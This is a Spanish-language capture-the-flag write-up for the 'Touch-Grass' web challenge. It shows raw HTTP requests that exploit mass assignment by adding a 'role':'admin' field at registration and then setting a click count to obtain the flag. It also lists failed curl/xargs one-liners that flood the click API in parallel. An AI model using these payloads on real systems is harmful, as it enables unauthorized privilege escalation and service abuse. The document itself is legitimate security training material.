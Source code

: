 
## Touch-Grass [Web]

### 150

ARIA has ordered you to touch grass. Now you actually have to do it. Make up for all the times you havent touched it.

[https://uscybercombine-touch-grass.chals.io/](https://uscybercombine-touch-grass.chals.io/)

## Solve
- Registrar un usuario con el rol de administrador : /api/register
```
POST /api/register HTTP/1.1
Host: uscybercombine-touch-grass.chals.io
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://uscybercombine-touch-grass.chals.io/register
Content-Type: application/json
Content-Length: 68
Origin: https://uscybercombine-touch-grass.chals.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers
Connection: keep-alive

{"username":"x1","first_name":"x1","last_name":"x1","password":"x1", "role":"admin"}
```


- Acceder /admin/api/register y registrar un usuario, usando el cookie del usuario registrado como admin, y registrar otro usuariuo con el rol de administrador

- Acceder el api de click de admin :  /admin/api/click, con un toquen de usuaruio registrado desde :  /admin/api/register, 
```
POST /admin/api/register HTTP/1.1
Host: uscybercombine-touch-grass.chals.io
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://uscybercombine-touch-grass.chals.io/register
Content-Type: application/json
Content-Length: 102
Origin: https://uscybercombine-touch-grass.chals.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers
Connection: keep-alive
Cookie: session=usW6_7Na4CHfP00uRMMS2mJsj--9egLg2ffS1WRjnN4

{"username":"x3","first_name":"x3","last_name":"x3","password":"x3","role":"admin",
"count":"100000"}




HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Mon, 03 Jun 2024 22:43:19 GMT
Content-Type: application/json
Content-Length: 29
Vary: Cookie
Connection: close

{"message":"Count updated."}

```


```
Good job meeting your grass touching requirements!

Here's your prize for completing the challenge: **SIVBGR{T0uch_1t}**

- Admin
```

## Intentos X fallaidos

```
seq 1 400 | xargs -n1 -P100  curl -s https://uscybercombine-touch-grass.chals.io/api/click -H "Content-Type: application/json" -H "Cookie: session=kmT1qGDl0RE5r6eww-e43TRFg6KeWvKZQYME7wzO6s4" -d '{"username":"xpc","password":"xpc"}' | grep hola
```



```
seq 1 400 | xargs -n1 -P20  curl -s https://uscybercombine-touch-grass.chals.io/api/click -H "Content-Type: application/json" -H "Cookie: session=C9c_MCnldTmJjQ5TtuK1MBOy0_UhQThYIuJCifNhF1M" -d '{"username":"xpc","password":"xpc"}'
```

```
 seq 1 10000 | xargs -n1 -P100  curl -s https://uscybercombine-touch-grass.chals.io/api/click -H "Content-Type: application/json" -H "Cookie: session=C9c_MCnldTmJjQ5TtuK1MBOy0_UhQThYIuJCifNhF1M" -d '{"username":"xpc","password":"xpc"}' | grep hola
```